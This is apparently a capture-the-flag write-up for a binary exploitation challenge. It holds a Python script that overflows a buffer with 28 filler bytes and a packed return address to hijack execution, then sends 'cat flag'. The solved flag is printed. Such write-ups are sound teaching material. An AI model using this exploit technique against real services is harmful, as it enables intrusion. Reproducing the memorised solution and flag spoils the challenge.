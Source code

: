 ### Challenge description

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible? 

### Solution

We wrote a script to get the flag. Obtained the function address in `gdb`.

```python
import socket
import argparse
import struct

parser = argparse.ArgumentParser()
parser.add_argument(
	"host",
	type=str,
	help="host ip",
)

parser.add_argument(
	"port",
	type=int,
	help="port ip",
)

args = parser.parse_args()

offset = 28
new_eip = struct.pack("<I", 0x080491f5)

payload = b"".join([
	b"A" * 28,
	new_eip
])

payload += b"\n"

with socket.socket() as connection:
	connection.connect((args.host,args.port))
	print(connection.recv(4096).decode("utf-8"))
	connection.send(payload)
	print(connection.recv(4096).decode("utf-8"))
	print(connection.recv(4096).decode("utf-8"))
	connection.send(b"cat flag\n")
	print(connection.recv(4096).decode("utf-8"))
```

flag{4cd3b4079393e861af489ca063373f98}